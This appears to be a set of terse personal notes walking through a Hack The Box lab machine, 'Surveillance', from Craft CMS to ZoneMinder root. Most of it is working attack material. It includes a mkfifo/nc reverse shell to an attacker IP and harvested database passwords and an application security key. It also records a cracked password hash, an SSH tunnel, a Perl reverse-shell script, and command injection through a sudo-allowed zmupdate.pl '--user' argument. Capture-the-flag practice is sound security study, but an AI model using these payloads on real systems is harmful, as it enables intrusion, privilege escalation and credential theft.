 COMMON
-----
https://github.com/y3rb1t4/htb-arg/blob/main/00-my-notes/shell-interactive.md
ss -tunl

USER FLAG
-----
OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)

HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 12 Feb 2024 02:27:22 GMT
Content-Type: text/html
Content-Length: 154
Connection: keep-alive
Location: http://surveillance.htb/
Powered by Craft CMS

CVE-2023-41892
https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.137 4444 >/tmp/f
user: matthew
user: zoneminder
ports: 22, 8080, 3306

/usr/share/zoneminder/www/api/app/Config/database.php:          'password' => 'ZoneMinderP│
assword2023',                                                                             │
/usr/share/zoneminder/www/api/app/Config/database.php:          'password' => ZM_DB_PASS, │
/usr/share/zoneminder/www/includes/config.php:  'Password'  => '',

-rw-r--r-- 1 root root 22864 Feb 12 19:41 /var/log/nginx/access.log                                                                                                                 
-rw-r--r-- 1 root root 87 Feb 12 19:41 /var/log/zm/access.log

-rw-r--r-- 1 root zoneminder 5265 Nov 18  2022 /usr/share/zoneminder/www/ajax/modals/storage.php                                                                                    
-rw-r--r-- 1 root zoneminder 1249 Nov 18  2022 /usr/share/zoneminder/www/includes/actions/storage.php                                                                               

-rw-r--r-- 1 root zoneminder 3503 Oct 17 11:32 /usr/share/zoneminder/www/api/app/Config/database.php                                                                                                       
                'user' => 'zmuser',                    

                'host' => 'localhost',                                                                                                                                              
                'password' => 'ZoneMinderPassword2023',                                                                                                                             
                'database' => 'zm',                                                                                                            
-rw-r--r-- 1 root zoneminder 11257 Nov 18  2022 /usr/share/zoneminder/www/includes/database.php

CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7                                         
CRAFT_ENVIRONMENT=production                                            
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_                                                
CRAFT_DB_DRIVER=mysql                                                  
CRAFT_DB_SERVER=127.0.0.1                               
CRAFT_DB_PORT=3306                                                
CRAFT_DB_DATABASE=craftdb                                                
CRAFT_DB_USER=craftuser                                                
CRAFT_DB_PASSWORD=CraftCMSPassword2023!                                                    
CRAFT_DB_SCHEMA=                                                
CRAFT_DB_TABLE_PREFIX=                                                     
DEV_MODE=false                                                 
ALLOW_ADMIN_CHANGES=false                                             
DISALLOW_ROBOTS=false                                                     
PRIMARY_SITE_URL=http://surveillance.htb/

39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec
https://hashes.com/en/tools/hash_identifier
https://md5decrypt.net/en/Sha256/
starcraft122490

ROOT FLAG
-----
/usr/share/zoneminder
https://phoenixnap.com/kb/ssh-port-forwarding

ssh -L 1111:127.0.0.1:8080 matthew@surveillance.htb

matthew@surveillance:/usr/share/zoneminder/www/api/app/Config$ cat *.php | grep -i "Version"
Configure::write('ZM_VERSION', '1.36.32');
Configure::write('ZM_API_VERSION', '1.36.32.1');

https://github.com/rvizx/CVE-2023-26035

sudo -l

```shell
sudo -l

(ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

cat /usr/bin/zm*.pl | grep "user"

shows two files with information about the user and password

- zmcamtool.pl
- zmupdate.pl

sudo /usr/bin/zmcamtool.pl --user="zmuser" --pass="ZoneMinderPassword2023" ## Not work

touch /tmp/rs.pl

```perl
use Socket;$i="10.10.14.137";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};
```

sudo /usr/bin/zmupdate.pl --user='$(perl /tmp/rs.pl)' --pass="asd" ## Reverse shell here

https://www.hackthebox.com/achievement/machine/834305/580